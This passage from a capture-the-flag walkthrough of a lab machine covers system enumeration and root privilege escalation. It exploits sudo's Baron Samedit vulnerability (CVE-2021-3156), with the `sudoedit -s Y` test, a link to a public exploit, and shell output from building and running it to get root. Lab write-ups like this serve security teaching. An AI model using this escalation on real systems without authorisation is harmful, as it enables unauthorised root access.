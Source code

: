 <br>

## System Enumeration

In the paul home directory you can find **user.txt** for your user own objective. A note that you could have also sent a request in burp to cat this previously before connecting to the system.

I look around his home directory but don't find anything. I check **/opt** and there isn't anything there either. I look for **SUID** set files, as well as any files with **capabilities** we can exploit and don't find anything. No cron jobs set either.

I decide to run **linpeas** at this point and while it doesn't have anything that blatantly sticks out in orange/red, there are several things in red.

Looking through them I find that the **sudo version** is 1.8.31 which appears to be vulnerable to the **Baron Samedit** aka **CVE-2021-3156** exploit.

I navigate over to [**this Github repository**](https://github.com/CptGibbon/CVE-2021-3156) and it mentions that if you run the following command and it asks for a password the system is probably vulnerable:

`sudoedit -s Y`

```
[sudo] password for paul:
```

<br>

## Root

It looks like we're good to give this exploit a shot. I download the files in the repository over to the target system and build the exploit, then run it:

```
paul@routerspace:/tmp/test$ make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c
paul@routerspace:/tmp/test$ ls
exploit  exploit.c  libnss_x  Makefile  shellcode.c
paul@routerspace:/tmp/test$ ./exploit
# whoami
root
# ls
Makefile  exploit  exploit.c  libnss_x  shellcode.c
# cat /root/root.txt
```

And with that we have root and have completed this CTF. Go get the **root.txt** file!

<br>

## Conclusion

A quick run down of what we covered in this CTF:
